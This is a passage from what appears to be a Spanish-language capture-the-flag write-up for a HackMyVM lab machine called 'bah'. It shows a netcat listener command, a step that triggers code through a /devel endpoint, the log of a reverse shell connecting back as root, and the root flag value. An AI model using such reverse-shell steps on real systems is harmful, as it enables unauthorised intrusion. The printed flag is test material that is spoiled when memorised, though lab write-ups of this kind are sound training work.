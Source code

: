 ```shell
nc -lvnp <PORT>
```

Ahora teniendo todo, para ejecutar en `endpoint` tendremos que visitar dicho `endpoint` que se encuentra en `/devel`.

```
URL = http://party.bah.hmv/devel
```

Ahora si todo ha salido bien, cuando volvamos a donde tenemos la escucha veremos lo siguiente:

```
listening on [any] 7755 ...
connect to [192.168.5.4] from (UNKNOWN) [192.168.5.32] 35088
root@bah:/# whoami
whoami
root
```

Con esto veremos que ha funcionando, por lo que ya seremos `root` y leeremos la `flag` de `root`.

> root.txt

```
HMVssssshell323
```
